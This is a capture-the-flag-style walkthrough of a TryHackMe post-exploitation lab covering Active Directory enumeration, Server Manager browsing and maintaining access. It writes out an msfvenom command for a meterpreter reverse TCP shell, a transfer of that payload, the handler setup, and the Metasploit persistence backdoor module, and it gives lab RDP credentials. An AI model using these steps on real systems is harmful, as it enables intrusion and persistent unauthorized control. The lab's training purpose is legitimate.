


Post Exploitation Basics
THM Room: Post-Exploitation Basics
This room will cover all of the basics of post-exploitation; we'll talk everything from post-exploitation enumeration with powerview and bloodhound, dumping hashes and golden ticket attacks with mimikatz, basic information gathering using windows server tools and logs, and then we will wrap up this room talking about the basics of maintaining access with the persistence metaploit module and creating a backdoor into the machine to get an instant meterpreter shell if the system is ever shutdown or reset.
Task - 2: Enumeration with Powerview
Use Powerview from CybeXRay Guides -----→ Active Directory ------→ Tools -----→ Powerview
This can solve all the questions of Task - 2
Task - 3: Enumeration with BloodHound
Use Bloodhound from CybeXRay Guides -----→ Active Directory ------→ Tools -----→ Bloodhound
This can solve all the questions of Task - 3
Task - 4 & Task -5: Mimikatz
Use mimikatz from CybeXRay Guides -----→ Active Directory ------→ Tools -----→ mimikatz
Task - 6: Enumeration with Server Manager
Because servers are hardly ever logged on unless its for maintenance this gives you an easy way for enumeration only using the built in windows features such as the server manager. If you already have domain admin you have a lot of access to the server manager in order to change trusts, add or remove users, look at groups, this can be an entry point to find other users with other sensitive information on their machines or find other users on the domain network with access to other networks in order to pivot to another network and continue your testing.
The only way to access the server manager is to rdp into the server and access the server over an rdp connection
We'll only be going over the basics such as looking at users, groups, and trusts however there are a lot of other mischief that you can get your hands on in terms of enumerating with the server manager
This can also be a way of easily identifying what kind of firewall the network is using if you have not already enumerated it.
Connect to the VM with RDP:
Your machine IP is 10.10.33.48
Username: Administrator
Password: P@$$W0rd
Domain Name: CONTROLLER
Enumeration w/ Server Manager
This is what Windows Server Manager will look when you first open it up the main tabs that will be most interesting are the tools and manage tabs the tools tab is where you will find most of your information such as users, groups, trusts, computers. The manage tab will allow you to add roles and features however this will probably get picked up by a systems admin relatively quick.
Dont worry about the AD CS, AD DS, DNS, or File and Storage Services these are setup for exploitation of the active directory and dont have much use for post-exploitation

Navigate to the tools tab and select the Active Directory Users and Computers

This will pull up a list of all users on the domain as well as some other useful tabs to use such as groups and computers
Some sys admins dont realize that you as an attacker can see the descriptions of user accounts so they may set the service accounts passwords inside of the description look into the description and find what the SQL Service password is
Task - 7 : Maintaining Access
There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.
There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.
This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.
Generating a Payload with msfvenom
1.) msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe this will generate a basic windows meterpreter reverse tcp shell

2.) Transfer the payload from your attacker machine to the target machine.
Transfer the shell.exe to windows machine using scp.
scp /home/cybex/lab/active_directory_tools/bloodhound_loots/shell.exe administrator@10.10.33.48:/Users/Administrator/Downloads/
3.) use exploit/multi/handler - this will create a listener on the port that you set it on.
4.) Configure our payload to be a windows meterpreter shell: set payload windows/meterpreter/reverse_tcp
5.) After setting your THM IP address as your "LHOST", start the listener with run
6.) Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7.) Verify that we've got a meterpreter shell, where we will then background it to run the persistence module.
Run the Persistence Module
1.) use exploit/windows/local/persistence this module will send a payload every 10 seconds in default however you can set this time to anything you want
2.) set session 1 set the session to the session that we backgrounded in meterpreter (you can use the sessions command in metasploit to list the active sessions)

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.
Note: The module also tells how to remove persistence.
Clean Up Meterpreter RC file:
Just cat the contents and run it inside a meterpreter session to remove persistence.

Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.
There are other ways of maintaining access such as adding users and rootkits however I will leave you to do your own research and labs on those topics.